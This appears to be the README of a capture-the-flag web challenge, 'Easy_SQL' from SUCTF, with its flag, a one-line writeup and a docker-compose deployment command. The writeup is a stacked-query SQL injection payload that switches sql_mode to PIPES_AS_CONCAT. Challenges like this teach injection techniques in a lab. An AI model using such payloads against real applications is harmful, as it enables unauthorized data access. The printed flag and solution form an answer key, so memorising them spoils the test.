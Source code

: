 # 题目名称

Easy_SQL

# 题目类型

Web

# Flag

```
SUCTF{SUCTF_baby_sql_chall_120993n810h3}
```

# Writeup

```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```


# 部署方式

> docker-compose  up -d



